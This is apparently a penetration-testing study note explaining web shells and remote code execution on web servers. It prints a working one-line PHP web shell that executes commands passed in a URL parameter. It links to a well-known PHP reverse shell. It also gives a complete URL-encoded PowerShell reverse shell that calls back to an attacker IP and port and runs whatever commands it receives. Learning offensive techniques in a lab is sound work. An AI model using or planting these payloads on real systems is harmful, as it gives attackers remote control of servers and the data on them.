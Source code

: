 - Commands are entered into a webpage - either through an HTML form, or directly in the URL - which are then executed by the script.
- Extremely useful if there are firewalls in place, or even a stepping stone into a fully fledged reverse or bind shell.

PHP is still the most common server side scripting language.

`<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>`

This will take a GET parameter in the URL and execute it on the system with `shell_exec()`. Any commands we enter in the URL after `?cmd=` will be executed  on the system - Windows or Linux. The pre elements are to ensure that the results are formatted correctly on the page.

There are a variety of web shells available on Kali by default at `/usr/share/webshells` - including the the infamous [PentestMonkey php-reverse-shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) - a full reverse shell written in PHP.

- Most generic, language specific (e.g. PHP) reverse shells are written for Unix based targets such as Linux web servers. They will not work on Windows by default.
- When the target is Windows, it is often easiest to obtain RCE using a web shell, or by using msfvenom to generate a reverse/bind shell in the language of the server.
- RCE with URL Encoded Powershell Reverse Shell copied into the URL: 
  - `powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22`
    - Remember that the IP and Port (bold, towards end of the top line) will still need to be changed in the above code.